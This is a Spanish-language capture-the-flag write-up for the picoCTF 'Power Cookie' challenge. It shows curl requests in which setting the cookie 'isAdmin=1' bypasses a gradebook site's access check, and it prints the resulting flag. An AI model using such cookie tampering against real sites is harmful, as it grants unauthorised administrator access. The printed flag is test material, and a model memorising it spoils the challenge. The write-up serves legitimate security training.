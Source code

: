 # Power Cookie

## Descripción
¿Puedes conseguir la bandera?
Visite este [sitio web](http://saturn.picoctf.net:57329/) y vea lo que puede descubrir.

## Pistas
- ¿Sabes cómo modificar las cookies?

## Solución
```bash
┌──(kali㉿kali)-[~]
└─$ curl http://saturn.picoctf.net:57329/                                  
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Secure Log In</title>
  </head>
  <body>
    <script src="guest.js"></script>

    <h1>Online Gradebook</h1>
    <button type="button" onclick="continueAsGuest();">Continue as guest</button>
  </body>
</html>
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ curl http://saturn.picoctf.net:57329/check.php                         




<html>
<body>



<p>Please visit our <a href='/'>homepage</a> and continue as guest.</p>


</body>
</html>
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ curl http://saturn.picoctf.net:57329/check.php -H "Cookie: isAdmin=1"




<html>
<body>



<p>picoCTF{gr4d3_A_c00k13_65fd1e1a}</p>


</body>
</html>
```

## Bandera
picoCTF{gr4d3_A_c00k13_65fd1e1a}

## Notas adicionales
| Comando | Descripción |
|--------|--------|
| curl -H | Nos permite alterar datos del encabezado |

## Referencias
[Cómo usar el comando curl de Linux](https://www.hostgator.mx/blog/comando-curl-linux/)